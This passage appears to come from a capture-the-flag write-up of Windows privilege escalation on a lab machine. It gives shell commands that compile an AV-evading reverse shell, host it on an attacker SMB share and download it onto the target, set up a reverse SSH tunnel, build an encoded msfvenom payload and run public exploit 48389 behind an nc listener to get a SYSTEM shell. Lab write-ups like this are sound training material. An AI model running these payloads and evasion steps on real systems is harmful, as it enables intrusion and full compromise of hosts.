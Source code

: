 Finally, that is a working connection reachable on Kali at `127.0.0.1:8888`:

```bash
netstat -tnap
```

![netstat2](./buff/netstat2.png)

Next, generate a new `WinExec` payload for the exploit. Since there is AV running on the target, it is better to generate a new reverse shell EXE and upload it to the target that connects back on a different port since this shell has been proven to bypass AV already:

- **NOTE:** The payload _may_ not work if dynamic AV detection catches the Win32 API call to `WinExec` and the payload matches signature detection! If that happens, a hand crafted payload will work better: https://github.com/a-rey/0xDEADBEEF/blob/master/windows/x86/WinExec/WinExec.asm 

```bash
# on kali, edit bubba.c to have TARGET_PORT set to 7777 and compile new payload
i686-w64-mingw32-gcc bubba.c -o bubba.root.exe -s -lws2_32
# on kali, host new payload (if not already done)
sudo impacket-smbserver -smb2support BUBBA .
# on target, download payload
robocopy \\10.10.14.17\BUBBA\ . bubba.root.exe /copy:DT /w:1 /r:1 /v
# on target, start port foward (if not already done)
.\plink.exe -ssh -P 9999 -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
# on kali, generate a new payload for the exploit
msfvenom -p windows/exec \
         CMD='C:\xampp\htdocs\gym\upload\bubba.root.exe' \
         –e x86/shikata_ga_nai \
         -i 10 \
         -a x86 \
         -f python \
         -b '\x00\x0A\x0D' \
         -v payload
 # on kali, copy down the exploit 48389.py and replace the "payload" with the new one
 searchsploit -m 48389
 # on kali, start a listener & run the exploit
 nc -nvlp 7777
 python 48389.py
```

![root](./buff/root.png)

And that gives the SYSTEM shell! 